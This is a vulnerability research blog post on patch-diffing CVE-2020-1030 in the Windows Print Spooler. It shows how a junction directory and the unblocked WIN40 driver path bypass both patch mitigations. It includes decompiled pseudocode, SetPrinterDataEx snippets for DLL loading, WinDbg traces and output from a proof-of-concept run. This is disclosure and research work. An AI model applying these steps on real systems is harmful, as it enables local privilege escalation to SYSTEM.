






# Patch Diffing in the Dark
---
# CVE-2020-1030 - Finding Yet Another Spooler Bug 
created: 2021-12-20
author: John M


<sub>Photo by <a href="https://unsplash.com/@jasonstrull">Jason Strull</a> on <a href="https://unsplash.com/photos/kqBzDbiVV40">Unsplash</a>
  </sub>

Alright. From the start of our [patch diffing](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030.md#CVE-2020-1030%20-%20Patch%20Diffing%20Yet%20Another%20Spooler%20Bug) journey, we have come a long way. We have analyzed that patches introduced to fix *CVE-2020-1030* and so far they seem a bit weak. We discovered a new delete bug which was introduced to fix other bugs (oh the irony) and realized this isn't the [first time](https://twitter.com/peleghd/status/1326495846741970944) this has happened in Spooler). At this point in our analysis, `IsModuleFilePathAllowed` is the only validation function preventing us from reviving *CVE-2020-1030* completely.  Let's review the primitives and mitigations a bit to understand why this is the case, and find a way around it. 

## Original Primitives
[](https://www.google.com/search?q=define+primitive)

From our [previous post](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030.md#Primitives) we defined the exploitation primitives that provided *CVE-2020-1030's* EoP: 
>1. **[`AddPrinter`](https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinter) primitive** - retrieve privileged printer handle to enable [Spooler API](https://docs.microsoft.com/en-us/windows/win32/printdocs/print-spooler-api) calls. Primitive found in the way that Windows operates.
>2. **[`CreateDirectory`](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createdirectorya) primitive** - create an arbitrary directory as `SYSTEM` and subsequently assign *WriteData* permissions for all users. Primitive found in `localspl!BuildPrinterInfo`. 
>3. **[`LoadLibrary`](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibraryexw) primitive** - Taking advantage of Spooler's [point and print](https://docs.microsoft.com/en-us/windows-hardware/drivers/print/point-and-print-dlls) functionality that provides the ability to load a DLL found in specific sanctioned paths,  `%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`. Primitive found in `localspl!SplLoadLibraryTheCopyFileModule`.

## Mitigations

From studying the patches and dynamic analysis we discovered the [two](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030.md#Auditing%20IsValidSpoolDirectory) [mitigations](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030.md#Auditing%20IsModuleFilePathAllowed): 

1. **`IsValidSpoolDirectory` mitigation** - checks that the user has *WRITE* privileges the to the directory requested to be set as the *SpoolDirectory*, attempting to prevent the `CreateDirectory` primitive.  Mitigation found in `SplSetPrinterDataEx`. 
2. **`IsModuleFilePathAllowed` mitigation** -  ensures that the specified *SpoolerDirectory* did not match the predefined allowed driver directory used in the `LoadLibrary` primitive. Mitigation found in `BuildPrinterInfo`.

## Mitigation Bypasses

From our general understanding of the original primitives and the mitigations implemented, we came up with one complete and one partial bypass. 

### IsValidSpoolDirectory Bypass

The issue with the `IsValidSpoolDirectory` mitigation was that the **check** was added during printer configuration (within `SplSetPrinterDataEx`). The issue is that the `CreateDirectory` primitive **uses** the user supplied *SpoolDirectory* for the printer during printer intialization in `BuildPrinterInfo` at a later time.
 
>The spool directory is created (or mapped if it exists) when localspl!SplCreateSpooler calls localspl!BuildPrinterInfo. This has only been observed when the spooler service initializes; therefore, changes to a printer’s spool directory aren’t reflected until service has restarted. [CVE-2020-1030 Report](https://www.accenture.com/us-en/blogs/cyber-defense/discovering-exploiting-shutting-down-dangerous-windows-print-spooler-vulnerability)

This mitigation is vulnerable to a [TOCTOU](https://cwe.mitre.org/data/definitions/367.html) race condition vulnerability via a junction directory within the user supplied path. Additionally, **this isn't much of a race, as it can always be won**. The user can control when the Spooler intialization occurs via the `LoadLibrary` primitive (by causing a forceful restart of spooler).

### IsModuleFilePathAllowed Partial Bypass

The issue with the `IsModuleFilePathAllowed` check was that is was only preventing the very specific path *C:\Windows\System32\spool\drivers\x64*. The `CreateDirectory` primitive still works for **any other path**. This is a bypass, but partial because it still prevents the original [PoC](https://github.com/Accenture/AARO-Bugs/blob/master/CVE-2020-1030/poc.c) for *CVE-2020-1030*.  

The path was used for *CVE-2020-1030* for two reasons:

1. The path doesn't already exist. The path can't exist because the `CreateDirectory` primitive relies on the directory not existing to enter the correct code path. 
2. The path later passes the `IsModuleFilePathAllowed` check called within the Point and Print DLL `LoadLibrary` primitive. 

The complete bypass then is to find a path that:
  1. Doesn't already exist. 
  2. Isn't the driver directory specifically blocked by the `IsModuleFilePathAllowed` (*C:\Windows\System32\spool\drivers\x64*) in `BuildPrinterInfo`.
  3. Meets the `LoadLibrary` primitive requirements. (`%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`)


## Auditing IsModuleFilePathAllowed Again

[Last time](Patch%20Diffing%20in%20the%20Dark%20-%20CVE-2020-1030.md#Auditing%20IsModuleFilePathAllowed), we analyzed `IsModuleFilePathAllowed` in the context of `BuildPrinterInfo`. This time, we want to take a look at the use of `IsModuleFilePathAllowed` within the context of the `LoadLibrary` primitive.

The original PoC used the full path *C:\Windows\System32\spool\drivers\x64\payload.dll* to load it's final payload.

```c
// Call LoadLibraryEx (localspl!SplLoadLibraryTheCopyFileModule) with our payload

    cbData = ((DWORD)wcslen(szDestination) + 1) * sizeof(WCHAR);
    dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)szDestination, cbData);
```

Running a few quick experiments calling `SetPrinterDataEx` you can see the following results from the following paths: 
- *somePath*
- *C:\someAbsolutePath*
- *../someRelativePath*




### Auditing SplLoadLibraryTheCopyFileModule

Still not quite understanding from the *ProcMon* output, we take a look at `SplLoadLibraryTheCopyFileModule`:

```c
HMODULE
SplLoadLibraryTheCopyFileModule( HANDLE  hPrinter, LPWSTR pszModule)
{

/*
[...]
*/
pIniEnvironment = spooler->pIniEnvironment;

while ((pIniEnvironment != (PINIENVIRONMENT)0x0 &&
               (dwErrCode = (DWORD)uVar8, uMode = local_d08, phModule == (HMODULE)0x0))) {

    
    // Get Driver Directory (just like BuildPrinterInfo)
    // szAllowedEnvDriverDir = C:\Windows\System32\spool\drivers\<envrion>
    if(GetDriverDirectory(szAllowedEnvDriverDir,pszPath,pIniEnvironment,0,spooler))
    {
        if(MakeCanonicalPath(pszModule,szModuleCanonical))
        {
            if (IsModuleFilePathAllowed(szModuleCanonical,szAllowedEnvDriverDir)
            {
                phModule = LoadLibraryW(szModuleCanonical);
                if (phModule)
                    goto DONE;
            }
        }
    
        // Get IniDriverDir        
        if(GetIniDriverAndDirForThisMachineEx
            (*(longlong *)(lVar1 + 0x40),pszPath,szDriverPath,&hPrinter,pIniEnvironment))
        {
            StringCchCopyW(szModuleIniDriverPath,0x104,szDriverPath);
            StringCchCatW(szModuleIniDriverPath,0x104,pszModule);

            // Append pszModule to C:\Windows\System32\spool\drivers\x64\4
            if(MakeCanonicalPath(szModuleIniDriverPath,szModuleCanonical))
            {
                if (IsModuleFilePathAllowed(szModuleCanonical,szDriverPath)
                {
                    phModule = LoadLibraryW(szModuleCanonical);
                    if (phModule)
                        goto DONE;
                }
            }
        }
    }

    pIniEnvironment = pIniEnvironment->pNext;

}
					
/*
[...]
*/
```
<sub> Psuedo code for the `LoadLibrary` Primitive in `SplLoadLibraryTheCopyFileModule` </sub>

The `LoadLibrary` primitive loops through all of the *pIniEnvironment*s within Spooler, resolving paths related to the various [*environments*](https://docs.microsoft.com/en-us/windows/win32/printdocs/driver-info-2#:~:text=A%20pointer%20to%20a%20null%2Dterminated%20string%20that%20specifies%20the%20environment) and driver directories. The first call to `IsModuleFilePathAllowed` seems to be the one building the specific *environment* paths (*szAllowedEnvDriverDir*). The 2nd call seems uses a call relative to something from an INI driver.  The first call is where our potential options lie. We still don't know which paths are "allowed" in the first call. In the 2nd call *szDriverPath* is revealed as it shows up as part of the *szModuleIniDriverPath* (*szModuleIniDriverPath* = ***szDriverPath*** + *pszModule*) passed into the 2nd call to `MakeCanonicalPath`, which in turn calls  `CreateFile` .  

```c
ulonglong MakeCanonicalPath(LPCWSTR szPathToOpen,LPWSTR pszCanPathFromHandle)

{
  DWORD DVar1;
  HANDLE hFile;
  ulonglong uVar2;
  
  uVar2 = 0;
  hFile = CreateFileW(szPathToOpen,0x80000000,1,(LPSECURITY_ATTRIBUTES)0x0,3,0,(HANDLE)0x0);
  if (hFile != (HANDLE)0xffffffffffffffff) {
    DVar1 = GetFinalPathNameByHandleW(hFile,pszCanPathFromHandle,0x108,0);
    uVar2 = (ulonglong)(DVar1 - 1 < 0x107);
    CloseHandle(hFile);
  }
  return uVar2;
}
```
<sub> `CreateFileW` found within `MakeCanonicalPath`</sub>

Which is clearly seen in *ProcMon*.


 
 To find out the other "allowed" paths for *szAllowedEnvDriverDir*, we turn to *WinDBG*. We can step through the code to dynamically determine the various driver directory environment paths that might meet our specific path requirements. The module that we specify needs to exist (as we need to survive the `MakeCanonicalPath` call) to make it to the `IsModuleFilePathAllowed` call. 

Leveraging the `LoadLibrary` primitive to get to `IsModuleFilePathAllowed` using an existing file:
```c
    //assuming the payload is on the desktop
    cbData = ((DWORD)wcslen(L"..\\..\\Users\\User\\Desktop\\payload.dll") + 1) * sizeof(WCHAR);
    dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", 
                REG_SZ, (LPBYTE)L"..\\..\\Users\\User\\Desktop\\payload.dll", cbData);
```
<sub> Example code initiating the `LoadLibrary` primitive with relative path </sub>

We arrive at `IsModuleFilePathAllowed` :
```
0:008> k
 # Child-SP          RetAddr           Call Site
00 00000000`0184dc18 00007ffc`fbe5ccba localspl!IsModuleFilePathAllowed
01 00000000`0184dc20 00007ffc`fbe5ca2e localspl!SplLoadLibraryTheCopyFileModule+0x14a
02 00000000`0184e960 00007ffc`fbe4ebf4 localspl!SplCopyFileEvent+0xde
03 00000000`0184e9f0 00007ff6`360c28bf localspl!SplSetPrinterDataEx+0x374
04 00000000`0184ea50 00007ff6`360a2b7e spoolsv!SetPrinterDataExW+0x4f
05 00000000`0184eaa0 00007ff6`3609e300 spoolsv!YSetPrinterDataEx+0x5e
06 00000000`0184eae0 00007ffd`438423e3 spoolsv!RpcSetPrinterDataEx+0xd0
07 00000000`0184eb40 00007ffd`43802625 RPCRT4!Invoke+0x73
08 00000000`0184ebb0 00007ffd`437ff39a RPCRT4!NdrStubCall2+0x775
09 00000000`0184f1f0 00007ffd`43822c72 RPCRT4!NdrServerCall2+0x1a
0a 00000000`0184f220 00007ffd`437e748f RPCRT4!DispatchToStubInCNoAvrf+0x22
0b 00000000`0184f270 00007ffd`437e6da8 RPCRT4!RPC_INTERFACE::DispatchToStubWorker+0x1af
0c 00000000`0184f350 00007ffd`437f76a0 RPCRT4!RPC_INTERFACE::DispatchToStub+0xf8
0d 00000000`0184f3c0 00007ffd`437f6b07 RPCRT4!LRPC_SCALL::DispatchRequest+0x360
0e 00000000`0184f490 00007ffd`437f618b RPCRT4!LRPC_SCALL::HandleRequest+0x837
0f 00000000`0184f590 00007ffd`437f5e61 RPCRT4!LRPC_SASSOCIATION::HandleRequest+0x24b
10 00000000`0184f610 00007ffd`437f5a97 RPCRT4!LRPC_ADDRESS::HandleRequest+0x181
11 00000000`0184f6b0 00007ffd`437fc179 RPCRT4!LRPC_ADDRESS::ProcessIO+0x897
12 00000000`0184f7f0 00007ffd`44341fd0 RPCRT4!LrpcIoComplete+0xc9
13 00000000`0184f880 00007ffd`44336cb8 ntdll!TppAlpcpExecuteCallback+0x280
14 00000000`0184f900 00007ffd`432f54e0 ntdll!TppWorkerThread+0x448
15 00000000`0184fbf0 00007ffd`4432485b KERNEL32!BaseThreadInitThunk+0x10
16 00000000`0184fc20 00000000`00000000 ntdll!RtlUserThreadStart+0x2b
```

In the debugger you can see the Spooler call `IsModuleFilePathAllowed` several times within the `SplLoadLibraryTheCopyFileModule` loop.  

>```c
>IsModuleFilePathAllowed(szModuleCanonical,szAllowedPath))
>```
<sub> `IsModuleFilePathAllowed` Function Signature Reference </sub>

```bash
Breakpoint 0 hit
localspl!IsModuleFilePathAllowed:
00007ffc`fbdf2410 48895c2418      mov     qword ptr [rsp+18h],rbx ss:00000000`0184dc30=0000000001449fd0
0:008> du /c 100 @rcx ; du /c 100 @rdx
00000000`0184dcb0  "\\?\C:\Users\User\Desktop\payload.dll"
00000000`0184e700  "C:\WINDOWS\system32\spool\DRIVERS\x64"
0:008> g
Breakpoint 0 hit
localspl!IsModuleFilePathAllowed:
00007ffc`fbdf2410 48895c2418      mov     qword ptr [rsp+18h],rbx ss:00000000`0184dc30=0000000001448df0
0:008> du /c 100 @rcx ; du /c 100 @rdx
00000000`0184dcb0  "\\?\C:\Users\User\Desktop\payload.dll"
00000000`0184e700  "C:\WINDOWS\system32\spool\DRIVERS\W32X86"
0:008> g
Breakpoint 0 hit
localspl!IsModuleFilePathAllowed:
00007ffc`fbdf2410 48895c2418      mov     qword ptr [rsp+18h],rbx ss:00000000`0184dc30=0000000001448ce0
0:008> du /c 100 @rcx ; du /c 100 @rdx
00000000`0184dcb0  "\\?\C:\Users\User\Desktop\payload.dll"
00000000`0184e700  "C:\WINDOWS\system32\spool\DRIVERS\IA64"
0:008> g
Breakpoint 0 hit
localspl!IsModuleFilePathAllowed:
00007ffc`fbdf2410 48895c2418      mov     qword ptr [rsp+18h],rbx ss:00000000`0184dc30=0000000001448bd0
0:008> du /c 100 @rcx ; du /c 100 @rdx
00000000`0184dcb0  "\\?\C:\Users\User\Desktop\payload.dll"
00000000`0184e700  "C:\WINDOWS\system32\spool\DRIVERS\ARM64"
0:008> g
Breakpoint 0 hit
localspl!IsModuleFilePathAllowed:
00007ffc`fbdf2410 48895c2418      mov     qword ptr [rsp+18h],rbx ss:00000000`0184dc30=0000000001448b40
0:008> du /c 100 @rcx ; du /c 100 @rdx
00000000`0184dcb0  "\\?\C:\Users\User\Desktop\payload.dll"
00000000`0184e700  "C:\WINDOWS\system32\spool\DRIVERS\WIN40"
```
<sub> When `IsModuleFilePathAllowed` is called, RCX contains *szModuleCanonical* and RDX contains *szAllowedPath* </sub>

It is called once for each for each possible allowed `<environment>`s of the path *%SYSTEMROOT%\System32\spool\drivers\\<ENVIRONMENT\>\4*, with the following paths being allowed:
- *C:\WINDOWS\system32\spool\DRIVERS\x64*
- *C:\WINDOWS\system32\spool\DRIVERS\W32X86*
- *C:\WINDOWS\system32\spool\DRIVERS\IA64*
- *C:\WINDOWS\system32\spool\DRIVERS\WIN40*

From the list there exists a single path that meets all of our bypass criteria: **C:\WINDOWS\system32\spool\DRIVERS\WIN40**. 

>  1. Doesn't already exist. 

```powershell
PS C:\Users\user> ls C:\WINDOWS\system32\spool\DRIVERS\WIN40
ls : Cannot find path 'C:\WINDOWS\system32\spool\DRIVERS\WIN40' because it does not exist.
```

>  2. Isn't the driver directory (`C:\Windows\System32\spool\drivers\x64`) specifically blocked by the `IsModuleFilePathAllowed` in `BuildPrinterInfo`.

```c
"C:\Windows\System32\spool\drivers\x64" != "C:\WINDOWS\system32\spool\DRIVERS\WIN40"
```

>  3. That can still meet the `LoadLibrary` primitive requirements. (`%SYSTEMROOT%\System32\spool\drivers\<ENVIRONMENT>\<DRIVERVERSION>,` and `%SYSTEMROOT%\System32`)

Shown clearly in *WinDbg* output above. 

With all of these conditions met, **CVE-2020-1030 is alive and well. Hello CVE-2021-XXXX.**

## CVE-2021-XXXX - Windows Print Spooler Elevation of Privilege - Arbitrary Code Execution

With all the pieces in place, it is time to try it. Loading up a modified PoC that adds a junction directory pointing to your new path.

### Loading "Arbitrary" DLL AppVTerminator.dll 

A test was run using *AppVTerminator.dll* as a payload. Yes it is a Microsoft binary.  The end result is crashing the Spooler as LoadLibrary() of *AppVTerminator.dll* results in a call to [`TerminateProces`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-terminateprocess).

```powershell
PS C:\Users\user\Desktop> .\poc.exe C:\Windows\System32\AppVTerminator.dll junction
szJunctionPath: C:\Users\user\Desktop\junction
szInitialDriverPath: C:\Users\user\Desktop\junction\WIN40
Failed: SetPrinterDataEx(), spool\drivers\WIN40\AppVTerminator.dll. Error: 0
```

You can see the `CreateDirectory` primitive creating *%SYSTEMDIR%\spool\drivers\WIN40\\*:


Notice the user specified directory being created:


Followed by the `LoadLibrary` primitive of *AppVterminator.dll* and subsequent termination of spooler:


> `Failed: SetPrinterDataEx(), spool\drivers\WIN40\AppVTerminator.dll. Error: 0`

The poc reports failed because the code is [checking for a success status](https://github.com/Accenture/AARO-Bugs/blob/master/CVE-2020-1030/poc.c#L281) from the `SetPrinterDataEx` call, but rather receives an `RPC_S_CALL_FAILED` because of the **spoolsv.exe** termination. In reality, the poc was successful in loading an "arbitrary" DLL *C:\Windows\System32\spool\drivers\WIN40\AppVTerminator.dll*.

We did it!


### Visual Summary CVE-2021-XXXX

There were two mitigations introduced that prevented the original *CVE-2020-1030* from PoC from working. The mitigations `IsValidSpoolDirectory` and `IsModuleFilePathAllowed` were implemented in `SplSetPrinterDataEx` and `BuildPrinterInfo` respectively. Both can be bypassed with a single junction directory. It wasn't trivial to arrive at that conclusion, but we made it there with some persistence. 





### Everything old is new again

>TL; DR: I will explain, in details, how to trigger PrintDemon exploit and dissect how I’ve discovered a new 0-day; Microsoft Windows EoP **CVE-2020-1337**(https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-1337#ID0EWIAC), a bypass of PrintDemon’s recent patch via a Junction Directory (TOCTOU).
>[CVE-2020-1337 – PrintDemon is dead, long live PrintDemon! - VoidSec](https://voidsec.com/cve-2020-1337-printdemon-is-dead-long-live-printdemon/)

This quote was from *CVE-2020-1337* (Aug 2020), a bypass of the [PrintDemon](https://windows-internals.com/printdemon-cve-2020-1048/) *CVE-2020-1048* (May 2020) also using a junction directory. I could have started this blog post in the same way with some slight tweaks. 

>TL; DR: I will explain, in details, how to trigger **CVE-2020-1030** exploit and dissect how I’ve discovered a new 0-day; Microsoft Windows EoP **CVE-2021-XXXX**, a bypass of **CVE-2020-1030**’s ~~recent~~ old patch via a Junction Directory (TOCTOU).

The difference is that our new CVE has survived ~20 Spooler CVEs since its initial attempt of a patch in Sep 2020. Patch diffing continues to pay dividends in my vulnerability research. Spooler is a security researchers playground. I would advise you to go and play.

## Patch Diff in the Light 
One last point. Despite the wide coverage and fan fare surrounding this CVE and the Windows Printer Spooler, I hope to prove there is still value in taking the time yourself to review and understand the details surrounding a vulnerability.

Contrary to the title of this blog, this patch diff did not happen in the dark.  There were plenty of other reports and resources available to help understand *CVE-2020-1030*. The journey to vulnerability discovery and comprehension is sometimes aided by another researchers report, but don't take the report (or the patch) as final.  The  report is temporal, based on the code at a specific point in time. The underlying code is constantly changing.  Patch diffing remains a technique providing a *single source of truth* and insight into these changes. Take a look for yourself, work out the primitives, try to get to the root cause, and decide for yourself whether or not a CVE has actually been fixed. Until next time...


	


